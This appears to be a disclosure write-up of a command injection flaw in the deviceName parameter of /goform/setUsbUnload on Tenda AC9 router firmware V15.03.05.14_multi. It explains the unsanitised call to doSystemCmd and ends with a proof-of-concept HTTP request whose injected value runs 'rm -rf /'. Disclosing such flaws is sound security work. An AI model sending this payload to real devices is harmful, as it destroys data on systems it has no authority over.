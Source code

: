 # Tenda AC9 V1.0 V15.03.05.14_multi stack overflow vulnerability
## Affected Version
Tenda AC9 V1.0 V15.03.05.14_multi
## Vulnerability Description
In Tenda ac9 v1.0 routers with firmware version V15.03.05.14_multi, the deviceName parameter of route /goform/setUsbUnload has a Command Injection Vulnerability, which may lead to remote arbitrary code execution.
## Vulnerability Detail
The v2 returned by the sub_2B9FC function is passed to doSystemCmd as an argument, where v2 is the deviceName obtained from the request. doSystemCmd executes the command "cfm post netctrl 51? op=3,string_info=<v2>", where <v2> is the deviceName obtained from the request, that is, the data provided by the user, and v2 is the deviceName passed in from the outside. If the deviceName is not strictly verified, an attacker can use it to insert malicious commands.
deviceName=";  When rm -rf /", the generated command becomes: "cfm post netctrl 51? op=3,string_info=;  rm -rf /", which causes the rm -rf/command to be executed, causing serious system damage.

![img](./img/setUsbUnload.png)

## Poc
```py
POST /goform/setUsbUnload HTTP/1.1
Host: 192.168.0.1
Connection: keep-alive
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36
Cookie: password=452b97084f53fd461f33687a27a21f4dpxatgb

deviceName="; rm -rf /
```
